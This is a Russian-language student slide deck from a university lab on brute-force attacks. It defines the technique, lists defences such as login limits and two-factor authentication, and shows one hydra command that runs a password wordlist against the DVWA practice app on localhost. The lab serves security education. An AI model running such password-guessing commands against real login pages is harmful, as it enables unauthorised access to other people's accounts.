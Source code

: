 ```yaml
---
## Front matter
lang: ru-RU
title: Индивидуальный проект - этап 3
author: |
	 Алёна Дрожжанова\inst{1}

institute: |
	\inst{1}Российский Университет Дружбы Народов

date: 14 марта, 2025, Москва, Россия

## Formatting
mainfont: PT Serif
romanfont: PT Serif
sansfont: PT Sans
monofont: PT Mono
toc: false
slide_level: 2
theme: metropolis
header-includes: 
 - \metroset{progressbar=frametitle,sectionpage=progressbar,numbering=fraction}
 - '\makeatletter'
 - '\beamer@ignorenonframefalse'
 - '\makeatother'
aspectratio: 43
section-titles: true

---
```


# Цели и задачи работы

## Цель лабораторной работы

Целью данной работы является изучение атак типа брут-форс и инструмента hydra.

# Процесс выполнения лабораторной работы

## Введение

Атака брут-форс (англ. brute force attack) — это метод взлома, основанный на последовательном 
переборе возможных комбинаций значений (паролей, ключей шифрования и т. д.), 
чтобы подобрать правильное значение и получить несанкционированный доступ.

## Введение

Атаки брут-форс являются одним из самых простых, но эффективных способов взлома учетных записей, 
если системы не защищены должным образом. 

Сильные пароли, ограничения на количество попыток входа и двухфакторная аутентификация 
могут значительно уменьшить вероятность успешной атаки.

## Страница веб-формы

![Страница веб-формы](image/01.png){ #fig:001 width=70% height=70% }

## Команда для запуска hydra

```bash

hydra -l admin -P /usr/share/dirb/wordlists/small.txt \
 localhost http-get-form "/DVWA/vulnerabilities/brute/ \
 :username=^USER^&password=^PASS^&Login=Login: \ 
 H=Cookie: PHPSESSID=f2q94tbasiksr9q31mlg9d4qum; \ 
 security=medium:F=Username and/or password incorrect."  \
 -V

```

## Результат подбора

![Результат подбора](image/03.png){ #fig:003 width=70% height=70% }

# Выводы по проделанной работе

## Вывод

Мы приобрели знания об атаках брут-форс и инструменте hydra.